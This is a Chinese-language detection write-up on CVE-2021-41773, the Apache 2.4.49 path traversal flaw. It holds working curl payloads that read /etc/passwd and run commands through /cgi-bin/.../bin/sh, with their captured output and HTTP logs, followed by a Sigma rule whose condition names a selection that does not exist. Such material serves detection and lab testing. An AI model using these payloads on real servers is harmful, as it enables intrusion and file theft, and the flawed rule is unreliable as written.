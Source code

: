 # T1190-CVE-2021-41773-Apache HTTP Server 2.4.49路径穿越漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

版本等于2.4.49

穿越的目录允许被访问，比如配置了<Directory/>Require all granted</Directory>。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

## 漏洞详情

使用如下CURL命令来发送Payload（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到/etc/passwd：

```yml
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 03:40:43 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

```yml
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 03:45:29 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

## 检测日志

HTTP.log

```http.log
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 03:36:46 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 03:36:51 GMT
Server: Apache/2.4.49 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

## 测试复现

可参考漏洞详情部分

## 检测规则/思路

### sigma规则

```yml
title: CVE-2021-41773-Apache HTTP Server 2.4.49路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md
    - https://www.t00ls.cc/viewthread.php?tid=62967&highlight=CVE-2021-41773
detection:
    selection1:
        cs-method: 'POST' #请求方法为POST
        c-uri: #请求url中包含以下路径
            - '.%2e/.%2e/.%2e/.%2e'
    selection2:
        cs-method: 'GET' #请求方法为GET
        c-uri: '.%2e/%2e%2e/%2e%2e/%2e%2e/'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

### 建议

建议使用HTTP流量+安全设备(如天眼等)进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2021-41773 Apache漏洞分析及RCE思路

<https://www.t00ls.cc/viewthread.php?tid=62967&highlight=CVE-2021-41773>

Apache HTTP Server 2.4.49 路径穿越漏洞（CVE-2021-41773）

<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md>
